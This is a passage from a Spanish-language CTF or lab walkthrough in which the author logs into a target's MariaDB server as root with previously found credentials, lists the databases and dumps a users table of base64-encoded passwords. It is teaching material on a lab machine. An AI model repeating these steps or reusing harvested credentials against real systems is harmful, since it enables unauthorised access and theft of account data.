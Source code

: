 Vamos a conectarnos a la base de datos con las credenciales que anteriormente nos aparecieron:

```
┌──(al3j4ndr0㉿kali)-[~]
└─$ mysql -u root -p -h 174.0.0.129
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 55
Server version: 5.5.47-0+deb8u1 (Debian)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```

Como vemos, ya tenemos acceso a la base de datos, ahora revisemos las bases de datos cargadas:

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
2 rows in set (0.006 sec)
```

Ahora revisaremos que información tiene la base de datos **Users**:

```
MySQL [(none)]> use Users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MySQL [Users]> show tables;
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
1 row in set (0.018 sec)

MySQL [Users]> select * from users;
+------+------------------+
| user | pass             |
+------+------------------+
| kent | Sld6WHVCSkpOeQ== |
| mike | U0lmZHNURW42SQ== |
| kane | aVN2NVltMkdSbw== |
+------+------------------+
3 rows in set (0.008 sec)
```
